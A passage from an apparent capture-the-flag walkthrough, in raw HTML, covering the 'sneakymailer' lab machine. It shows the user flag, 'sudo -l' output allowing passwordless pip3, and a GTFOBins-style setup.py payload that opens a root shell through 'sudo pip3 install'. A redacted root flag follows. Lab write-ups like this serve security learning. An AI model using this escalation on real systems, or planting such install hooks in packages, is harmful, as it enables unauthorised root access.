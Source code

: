 <span class="nb">cat </span>user.txt
a5b----------------------------a9
</pre>

<h1>Root flag!.</h1>
<h2>Privilege escalation</h2>  
<pre>low@sneakymailer:~$ sudo -l
sudo: unable to resolve host sneakymailer: Temporary failure in name resolution
Matching Defaults entries for low on sneakymailer:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User low may run the following commands on sneakymailer:
    (root) NOPASSWD: /usr/bin/pip3</pre>  
 
  
<blockquote>Go to<a href="https://gtfobins.github.io/gtfobins/pip/" target="_blank">https://gtfobins.github.io/gtfobins/pip/</a>and search for pip</blockquote>  
<pre><span class="n">TF</span><span class="o">=</span><span class="err">$</span><span class="p">(</span><span class="n">mktemp</span> <span class="o">-</span><span class="n">d</span><span class="p">)</span>
<span class="n">echo</span> <span class="s">"import os; os.execl('/bin/sh', 'sh', '-c', 'sh &lt;$(tty) &gt;$(tty) 2&gt;$(tty)')"</span> <span class="o">&gt;</span> <span class="err">$</span><span class="n">TF</span><span class="o">/</span><span class="n">setup</span><span class="p">.</span><span class="n">py</span>
<span class="n">pip</span> <span class="n">install</span> <span class="err">$</span><span class="n">TF</span>
</pre>
<pre>low@sneakymailer:~<span class="nv">$ TF</span><span class="o">=</span><span class="si">$(</span><span class="nb">mktemp</span> <span class="nt">-d</span><span class="si">)</span>
low@sneakymailer:~<span class="nv">$ </span><span class="nb">echo</span> <span class="s2">"import os; os.execl('/bin/sh', 'sh', '-c', 'sh &lt;</span><span class="si">$(</span><span class="nb">tty</span><span class="si">)</span><span class="s2"> &gt;</span><span class="si">$(</span><span class="nb">tty</span><span class="si">)</span><span class="s2"> 2&gt;</span><span class="si">$(</span><span class="nb">tty</span><span class="si">)</span><span class="s2">')"</span> <span class="o">&gt;</span> <span class="nv">$TF</span>/setup.py
low@sneakymailer:~<span class="nv">$ </span><span class="nb">sudo </span>pip3 <span class="nb">install</span> <span class="nv">$TF</span>
</pre>
<pre>low@sneakymailer:~<span class="nv">$ </span><span class="nb">sudo </span>pip3 <span class="nb">install</span> <span class="nv">$TF</span>
<span class="nb">sudo</span>: unable to resolve host sneakymailer: Temporary failure <span class="k">in </span>name resolution
Processing /tmp/tmp.tQid5dJuNf
<span class="c"># bash</span>
root@sneakymailer:/tmp/pip-req-build-9k8kjhct# <span class="nb">whoami
</span>root
</pre>
And we are "ROOT"!.  
<pre>root@sneakymailer:~# <span class="nb">cat </span>root.txt
11----------------------------ff
root@sneakymailer:~#
</pre>
  
<h1>Thanks for Reading 🙏</h1>
